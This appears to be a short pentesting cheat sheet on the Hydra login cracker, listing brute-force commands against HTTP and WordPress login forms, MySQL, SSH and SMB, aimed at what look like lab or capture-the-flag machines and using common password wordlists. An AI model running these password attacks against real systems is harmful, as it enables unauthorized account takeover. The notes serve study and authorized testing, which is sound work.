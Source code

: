 ```yaml
---
tags:
  - PostExploitation
  - Cryptography
  - HashesAndEncryption
  - Tooling
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## SQL

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## SSH

* `hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh`
* `hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh`

# SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```